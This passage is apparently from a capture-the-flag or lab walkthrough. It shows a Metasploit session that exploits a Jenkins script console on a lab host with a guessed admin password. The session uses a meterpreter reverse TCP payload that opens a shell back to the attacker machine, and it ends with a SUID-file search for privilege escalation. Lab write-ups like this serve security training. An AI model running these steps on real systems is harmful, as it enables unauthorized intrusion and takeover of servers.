 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      EAPOL HMAC     : 41 6E 3D 0F 7B 6C EB 8A B2 AA 79 73 AB FE 50 2A 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


On port 8080 there is a Jenkins installation: Credentials admin and password : avengers (guessed)

Exploiting Jenkins on Linux with Metasploit

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > use exploit/multi/http/jenkins_script_console

msf5 exploit(multi/http/jenkins_script_console) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf5 exploit(multi/http/jenkins_script_console) > set target /
target => /
msf5 exploit(multi/http/jenkins_script_console) > set username admin
username => admin
msf5 exploit(multi/http/jenkins_script_console) > set password avengers
password => avengers
msf5 exploit(multi/http/jenkins_script_console) > set target 1
target => 1
msf5 exploit(multi/http/jenkins_script_console) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/jenkins_script_console) > set targeturi /
targeturi => /
msf5 exploit(multi/http/jenkins_script_console) > set rport 8080
rport => 8080
msf5 exploit(multi/http/jenkins_script_console) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: '909300dc2fcc1a0052981b73c2d8ad19' (Jenkins-Crumb style)
[*] 192.168.56.106:8080 - Sending Linux stager...
[*] Sending stage (914728 bytes) to 192.168.56.106
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.106:44046) at 2019-10-25 05:28:45 -0400

meterpreter > 
[!] Deleting /tmp/1FA5Gvg payload file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege Escalation
Searcking for file permissions  : find / -perm -u=s -file f 2>/dev/null


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jenkins@ubuntu:/home$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
/bin/ping
/bin/ntfs-3g
/opt/script
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/gpasswd
...snip ..

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
